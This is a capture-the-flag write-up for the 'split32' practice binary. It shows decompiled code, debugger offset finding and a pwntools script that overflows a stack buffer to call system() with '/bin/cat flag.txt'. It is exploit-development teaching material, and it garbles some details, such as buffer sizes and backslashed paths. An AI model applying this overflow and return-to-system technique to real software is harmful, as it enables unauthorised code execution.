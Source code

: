 # split32 solution

for split32, my goal is to push out the flag inside of `flag.txt`.

first, i make split32 executable locally using `chmod +x split32`.

i then run `file split32`, which gives `split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=76cb700a2ac0484fb4fa83171a17689b37b9ee8d, not stripped`, so i know split32 is a 32 bit file.

i put the binary into ghidra, and i see the `pwnme` function, which takes in 40 bytes of data and shoves it in a buffer that can handle 96 bytes of data. i could probably do binary overflow here.
```
void pwnme(void)

{
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```

i also find this `usefulFunction` defined. i see that it is calling system.
```
void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```

this is very useful as i can use it to call `bin\cat flag.txt` later on. i also see that there is a `"bin\cat flag.txt"` string in the file. 

![bincat.png](images/bincatstr.png)

running `checksec --file=./split32` gives me this. 

![checksec.png](images/checksec.png)

NX-bit is set, so this means that DEP (Data Execution Prevention) is in use. this means that data stored on the stack is non-executable, so we have to use ROP (Return Oriented Programming) to bypass this.

now that i know all of this, i can start by creating a cyclic sequence the same way as the past few pwn challenges by running `gdb ./split32` to enter pwndbg before running `cyclic -n 4 100` to get a cyclic sequence to put into the binary. 

i run the binary and paste the cyclic sequence into it, which gives me this. i know now that the program crashes at `0x6161616c`.

![crash.png](images/crash.png)

i then use `cyclic -l 0x6161616c -n 4` to locate where the offset is, in this case it is an offset of 44. now i know that my payload should be 44 bytes long. 

![offset.png](images/offset.png)

my goal right now is to call system, then place the address of `/bin/cat flag.txt` in the place of `/bin/ls`. i see that something is being pushed before system, so i check it by running `x/s 0x804870e`. this gives me `\bin\ls`. this means the `system()` call would just execute whatever is called until `\bin\ls`, so i need to replace this with `\bin\cat flag.txt`.

![binls.png](images/findbinls.png)

by disassembling `usefulFunction` using disass `usefulFunction`, i find the system call at the address `0x0804861a`. using `search "\bin\cat"`, i find that `bin/cat flag.txt` is at the address `0x0804a030`.

now i can start crafting my payload!
```
from pwn import *

p = process("./split32")

sys = 0x0804861a      # system() address
bincat = 0x0804a030    # address of "/bin/cat"

payload = b"A" * 44 + p32(sys) + p32(bincat)

p.sendline(payload)
p.interactive()
```

which will get me

![success.png](images/success.png)

and voila, i successfully replaced the addresses and pushed out the flag `ROPE{a_placeholder_32byte_flag!}`!


